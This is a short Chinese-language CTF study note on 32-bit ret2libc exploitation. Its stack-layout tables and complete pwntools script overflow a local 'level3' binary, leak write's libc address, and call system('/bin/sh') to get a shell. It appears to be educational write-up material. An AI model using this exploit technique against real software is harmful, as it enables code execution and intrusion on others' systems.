

- 函数参数劫持

- `32`位泄露`libc`

  `32`位程序的传参是栈的后四位开始,要注意的是,`32`位下`write,put`的`ret`位置是紧跟函数后面的

  `payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)`

  > 这段代码中的p32(elf.sym['main'])就是ret,同时满足填充栈,传入参数

| rbp  |           |       |            |
| ---- | --------- | ----- | ---------- |
|      | padding   |       | 0x88       |
|      |           | leave | 0x4        |
|      | write_plt | ret   |            |
|      | main_addr | ret_l | 返回的地址 |
|      | 0x1       |       | arg1       |
|      | wirte_got |       | arg2       |
|      | 0x4       |       | arg3       |

> payload1

| rbp  |             |       |      |
| ---- | ----------- | ----- | ---- |
|      | padding     |       | 0x88 |
|      |             | leave | 0x4  |
|      | system_addr | ret   |      |
|      | 0xdeadbeef  |       |      |
|      | bin_sh_addr |       | aeg1 |

> payload2

```python
from pwn import *
#context.log_level = 'debug'
io = process('./level3')
#io = gdb.debug('./level3','break main')
elf = ELF('./level3')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
io.recvuntil('Input:\n')
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))
baseoffset = write_addr - Lib.sym['write']
sys_addr = baseoffset + Lib.sym['system']
bin_sh_addr = baseoffset + next(Lib.search(b'/bin/sh'))
payload2 = b'A'*(0x88+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```
